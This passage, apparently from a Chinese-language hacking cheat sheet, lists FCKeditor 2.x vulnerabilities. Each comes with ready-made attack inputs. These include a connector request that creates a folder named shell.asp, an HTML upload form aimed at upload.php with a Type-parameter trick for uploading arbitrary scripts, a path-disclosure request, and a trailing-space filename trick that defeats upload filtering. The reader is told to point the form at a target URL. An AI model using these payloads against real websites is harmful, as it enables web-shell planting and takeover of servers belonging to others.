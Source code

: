 or

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
```

FCKeditor PHP 上传任意文件漏洞  

影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2  

脆弱描述：

FCKeditor 在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。

在通过 editor/filemanager/upload/php/upload.php 上传文件时攻击者可以通过为 Type 参数定义无效的值导致上传任意脚本。

成功攻击要求 config.php 配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改 action 字段为指定网址)：

```
<form id="frmUpload" enctype="multipart/form-data"
action="http://www.xxxx.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
<input type="file" ><br>
<input id="btnUpload" type="submit" value="Upload">
</form>
```

Note: 如想尝试 v2.2 版漏洞，则修改 Type = 任意值 即可，但注意，如果换回使用 Media 则必须大写首字母 M, 否则 LINUX 下，FCKeditor 会对文件目录进行文件名校验，不会上传成功的。

### FCKeditor 暴路径漏洞

影响版本：aspx 版 FCKeditor  
攻击利用：

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp
```

### FCKeditor 文件上传 “.” 变“_”下划线的绕过方法

影响版本: FCKeditor => 2.4.x  

脆弱描述：

我们上传的文件例如：shell.php.rar 或 shell.php;.jpg 会变为 shell_php;.jpg 这是新版 FCK 的变化。

攻击利用:

```
提交1.php+空格 就可以绕过去所有的,
```

※不过空格只支持 win 系统 *nix 是不支持的 [1.php 和 1.php + 空格是 2 个不同的文件]

Note:http://pstgroup.blogspot.com/2007/05/tipsfckeditor.html

### FCKeditor 文件上传 “.” 变“_”下划线的绕过方法（二）

